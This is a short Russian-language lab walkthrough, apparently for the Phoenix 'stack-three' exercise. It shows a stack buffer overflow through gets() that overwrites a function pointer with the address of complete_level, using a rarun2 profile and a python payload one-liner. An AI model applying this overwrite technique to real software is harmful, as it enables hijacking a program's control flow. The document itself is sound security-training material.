






Необходимо изменить значение поля `*fp` в структуре на адрес функции `complete_level`\
```
struct {
    char buffer[64];
    volatile int (*fp)();
} locals;
```

Уязвимое место `gets(locals.buffer);`\

файл является позиционнозависимым, следовательно адреса не будут меняться.

находим адрес функции `complete_level`


заполняем профиль
```
#!/usr/bin/rarun2
stdin=/opt/phoenix/amd64/inputfileSTh
```

Заполняем файл inputfileSTh
```
python -c "print('A' * 64 + '\x9d\x06\x40\x00')" > inputfileSTh
```

И убираем байт \0a
```
truncate -s -1 inputfileSTh
```

Содержимое файла 


стек до


стек после


код проверки


содержимое rax\


победа

